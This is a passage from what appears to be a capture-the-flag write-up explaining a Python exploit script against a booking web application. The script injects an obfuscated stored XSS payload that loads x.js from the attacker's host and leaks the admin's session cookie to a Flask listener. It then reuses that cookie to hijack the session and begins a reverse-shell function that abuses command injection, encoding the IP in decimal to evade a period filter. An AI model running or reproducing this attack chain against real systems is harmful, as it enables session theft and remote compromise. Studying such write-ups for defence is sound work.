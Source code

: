 As we saw in the previous section, the `x.js` will send a request to `/leak?x=[base64]` where `[base64]` is base64 encoded response of a request to a booking page. At line 16, we extract the base64 encoded part of the URL and base64 decode it using the `base64.b64decode` function . Then, we extract the admin user's session cookie using the regex `name=\"cookie" value=\"connect.sid&#x3D;(.*?)\">` which matches the string `name="cookie" value="connect.sid&#x3D;`, the admin user's session cookie followed by the string `">`. Note that `&#x3D;` is an HTML encoded equality sign `=`. We store the admin user's session cookie in the global `cookieValue` variable and release the `wsLock` lock to inform Thread 1 (Main) that it can proceed.

At line 29 to 32, we configure the flask web server to be silent. This is done by setting the log level of the `werkzeugs` logger to `Error`. In addition, we overwrite the `click.echo` and `click.secho` functions with a lambda function that does nothing, since these are used by the web server to write output to STDOUT. Once we have configured the web server to be silent, we start a new thread on line 32 to 33 and instruct it to run the web server.

{% highlight python linenos %}
print("[*] Sending XSS payload")
payload = """document.write('<script src="http://"""+LHOST+"""/x.js"></script>')"""
nums = [str(ord(i)) for i in payload]
payload = '<img src="x/><script>eval(String.fromCharCode('+','.join(nums)+'));</script>">'
data = {"uuid":bookingID,"body":payload}
r = requests.post(URLBASE+"agent/addNote", headers=headers, data=data)
{% endhighlight %}
The next step is to create a new note which contains the XSS payload we demonstrated in the previous section. At line 2, we set the `payload` variable to some HTML code which downloads and executes the `x.js` file we created earlier. Thereafter, on line 3, we use [list comprehension](https://www.w3schools.com/python/python_lists_comprehension.asp) to convert each of the characters into their corresponding unicode code which we then use to craft our final payload on line 4. Afterwards, we send a `POST` request to inject this payload in a note of an existing booking.

Once we have sent the request, we wait for the web server to obtain the admin user's session cookie and place it in the `cookieValue` variable. We wait for the assigment of this variable by calling the `wsLock.acquire` function which blocks execution until the `release` function is called on the `wsLock` object. Once we have obtained the admin user's session cookie, we replace the old session cookie with this new session cookie in our `headers` dictionary.

{% highlight python linenos %}
print("[*] Waiting for the admin user to visit the infected note")
wsLock.acquire()
headers['Cookie'] = cookieName+"="+cookieValue
{% endhighlight %}

The next step is to write the function `executeRevShell` which will execute the reverse shell payload. The function accepts 4 parameters. The first two are the base URL of the host we are targeting and the the IP of our web server. The third argument, named "mutex", is a locked lock which the function uses to wait for a listener to be ready before injecting any commands. Then, it converts the IP address of our web server to decimal format. This is because the command injection vulnerability does not allow for the injection of commands containing the period `.` character.
{% highlight python linenos %}
# executeRevShell - Executes a reverse shell on the target by abusing the command injection vulnerability
# Params:
#   urlbase - The URL of the target to compromise
#   wsIP - IP of the webserver which hosts the reverse shell payload "rs"
#   mutex - A mutex to acquire before exploiting the target